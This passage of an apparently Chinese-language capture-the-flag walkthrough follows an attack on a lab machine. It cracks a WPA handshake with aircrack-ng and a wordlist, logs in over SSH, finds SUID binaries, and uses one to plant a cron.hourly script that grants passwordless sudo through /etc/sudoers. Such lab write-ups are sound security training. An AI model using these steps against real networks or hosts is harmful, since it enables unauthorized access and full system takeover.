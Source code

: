 这边需要破解 WPA/WPA2 密码，可以用 aircrack-ng 或 hashcat 来完成...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYCIkOjR3iaRjffFaiaJj4f4E9aS6ZDhJ2OtLA96h3frlc0wdnwPsWuLUwKYlupmt0vImQLVtGhrYw/640?wx_fmt=png)

```
aircrack-ng -w rockyou.txt eg-01.cap
密码是triscuit*
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYCIkOjR3iaRjffFaiaJj4f4uoxAocjjnH85XIXXBc72cWZpxIuUOJsZnZalNvdRDKHUqaWVj7Hg1g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/FAf3SbzREv1yEsWZqMDExrPvhOutWaLH9VkgQiaS11ia5Y3Xun2olnDwIhLlOiaMWe0UGE1uMpeHx4ma7lOjn8xpQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/VtRWAxRvv7GXYcc2w086cwOxcc4libkI8ibn6rD3yBlZ7vd0fH2TaYMKicrgibMcRBbxTQ5fbCJs4AgldkHtBiaPOdA/640?wx_fmt=png)

二、提权

![](https://mmbiz.qpic.cn/mmbiz_svg/kSiaeFj92SMyLghhftE2Ls37f4uZP8ZCOxbnsSQ1P6n6AsfOBzt5PrmdTAS3OOhPMXiabAsyKKf4QuEfoCrj9yLNlmkc5ddlpQ/640?wx_fmt=svg)

```
ssh eric@192.168.56.136 -p 1974
```

成功登陆... 真的难，太难了...（aircrack-ng 使用这个得靶机和攻击机子都在外网环境...)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYCIkOjR3iaRjffFaiaJj4f4IQAAn3WO03BHbhZ8K89Dp8OdWqX94VQOJiaBQfws6Bx3Rqlicp2IX5Zw/640?wx_fmt=png)

无法直接提权... 前面 nmap 扫到的一大串代码应该是存在二进制文件的... 我找下 suid 试试...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYCIkOjR3iaRjffFaiaJj4f4q33QydV8w3HP3UxktfWBjnicnUpRI2NIeXcTGy0Kic2DicKCOC2e8Fw3A/640?wx_fmt=png)

```
find / -perm -g=s -perm -u=s -type f -ls 2>/dev/null
```

发现 donpcgd 是 root 和 eric 组存在的 SUID 文件...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYCIkOjR3iaRjffFaiaJj4f4NZ7e7EUcsj0aB0rUBZgqVYqNVYxsicvA1X6FurVrbLFUWQrjRHMRZQQ/640?wx_fmt=png)

有提示... 遇到过... 意思是：该程序会将路径 1 中的文件复制到路径 2（仅名称相同，但是内容不会被复制。新文件为空）

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYCIkOjR3iaRjffFaiaJj4f4O8D6DtVgVUcMKputtplKnS2U1C9BlO9TeEyh06OZdxw5m6w2Xkxfbw/640?wx_fmt=png)

我在 / tmp 创建了 dayu 文件，然后使用 donpcgd 脚本将该文件放在 / etc/cron.hourly 文件夹中...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYCIkOjR3iaRjffFaiaJj4f4Ktd5FmyibVIfnpjrKTxsg5VUFic9noticS4ibBk83icBsSMqTJzcE1picaSA/640?wx_fmt=png)

命令：

```
1. touch /tmp/dayu
 2. /usr/local/share/sgml/donpcgd /tmp/dayu /etc/cron.hourly/dayu
 3. echo -e '#!/bin/bash\n echo "eric ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers' > /etc/cron.hourly/dayu
 4. chmod +x /etc/cron.hourly/dayu
```
